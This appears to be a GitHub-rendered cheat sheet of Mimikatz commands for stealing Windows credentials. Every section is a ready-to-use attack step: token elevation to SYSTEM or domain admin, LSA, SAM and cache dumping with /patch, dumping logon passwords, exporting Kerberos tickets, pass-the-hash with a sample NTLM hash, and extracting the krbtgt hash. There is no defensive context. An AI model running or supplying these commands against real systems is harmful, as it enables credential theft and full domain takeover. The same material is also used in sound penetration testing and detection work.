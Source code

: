 - *Mimikatz, a tool by gentilkiwi to extract secrets from a windows machine*

<br>

#### Enable logging, elevate token

---

```powershell
#enable logging in currenty directory
log

#get system, if not already
token::elevate
# try to find a da token and elevate to it
TOKEN::Elevate /domainadmin 

#interact with a process of another user
privilege::debug
```

<br>

#### Ask LSA for creds

---

```powershell

lsadump::lsa /patch
lsadump::sam /patch
lsadump::cache /patch
```

#### sekurlsa

---

```powershell
sekurlsa::logonpasswords

#export available tickets, similar to klist
sekurlsa::tickets /export

sekurlsa::pth /user:Administrateur /domain:corp.com /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

<br>

#### dump user hash

---

```powershell
lsadump::lsa /inject /name:krbtgt
```

